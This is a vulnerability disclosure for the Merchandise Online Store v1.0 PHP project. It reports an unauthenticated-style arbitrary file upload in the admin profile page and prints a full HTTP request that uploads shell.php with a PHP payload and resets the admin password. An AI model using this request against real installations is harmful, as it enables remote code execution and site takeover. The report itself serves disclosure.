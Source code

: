 # Merchandise Online Store v1.0 by oretnom23 has arbitrary code execution (RCE)

**Author** : ffYYy6x0y1

vendor: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability url: http://ip/vloggers_merch/admin/?page=user

Loophole location： There is an arbitrary file upload vulnerability (RCE) in the user profile upload point in the system information.

Request package for file upload：

```sql
POST /vloggers_merch/classes/Users.php?f=save HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/vloggers_merch/admin/?page=user
Content-Length: 728
Content-Type: multipart/form-data; boundary=---------------------------972285327633
Cookie: PHPSESSID=ikts6n5evd3ahejiopufg6114g
Connection: close

-----------------------------972285327633
Content-Disposition: form-data; name="id"

1
-----------------------------972285327633
Content-Disposition: form-data; name="firstname"

Adminstrator
-----------------------------972285327633
Content-Disposition: form-data; name="lastname"

Admin
-----------------------------972285327633
Content-Disposition: form-data; name="username"

admin
-----------------------------972285327633
Content-Disposition: form-data; name="password"

admin123
-----------------------------972285327633
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------972285327633--
```

The files will be uploaded to this directory \vloggers_merch\uploads

![image](https://user-images.githubusercontent.com/104813753/166432810-06c5a0bd-7983-4e0f-83c0-8e286cf7e4c4.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/104813753/166432922-c3935ac1-b403-4934-a7dd-0251b571540e.png)

